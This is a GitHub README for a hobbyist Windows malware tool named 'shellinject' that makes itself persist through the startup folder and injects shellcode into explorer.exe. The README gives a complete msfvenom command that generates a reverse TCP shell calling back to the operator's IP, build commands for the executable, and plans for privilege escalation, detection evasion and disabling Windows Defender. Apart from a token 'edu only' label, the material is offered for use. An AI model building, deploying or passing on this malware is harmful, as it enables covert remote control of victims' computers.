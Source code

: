 # shellinject for edu  ONLY!



code explain the code is writing itself to windows startup then it finding the pid of explorer.exe 
and injecting shell code in my example its reverse_shell 

------------------------------------------------------------------------------------

you nead to change the pass to the meoware.exe in here + you can change the auto startup name 



![Screenshot (10)](https://github.com/masterconi/shellinject/assets/85493153/8c445392-241b-4eed-a331-b1ce144e0387)


-----------------------------------------------------------------------------------


before use change the shellcode to your shellcode you can generate it useing msfvenom 
for example ```msfvenom --platform windows --arch x64 EXITFUNC=thread -p windows/x64/shell/reverse_tcp_rc4 LHOST=YOURE_IP LPORT=YOURE_PORT RC4PASSWORD=YOURE_PASS EXITFUNC=thread -f c --var-name=ucReverseShell```
copy it to here  
![Screenshot (8)](https://github.com/masterconi/shellinject/assets/85493153/d8ef7109-650f-40f0-af7f-aad2e9be4628)


-------------------------------------------------------------------------------------

plus you can change the executeble to be injected in here :
![Screenshot (9)](https://github.com/masterconi/shellinject/assets/85493153/02713da7-7695-45b3-9ef7-bed1fbe6e6c4)

------------------------------------------------------


to build the repo try to do it with g++ or msvs

g++ example :``` g++ add_to_startup.cpp find_pid.cpp shellinj.cpp -o meoware.exe```

sorry idk how copy it to msvs  ¯\\_(ツ)_/¯

----------------------------------------------------

why i did it ?

i have nothin to do at holidays :-D

--------------------------------------------------------
TODO : make hard to detect , make the shell code encrypted ,  make readme.md more beautiful (✿◡‿◡)


ON_WORKrn: add priv esc ,make the shell code inject "vir.dll" ,disable windows defender :)


i would be happy to get help thanks
----------------------------------------------------------------------------

why the code so shity : 1:becouse i make it in my free time and i am to lazy for makeing it beautiful ,2: shutup scrypt_kiddie


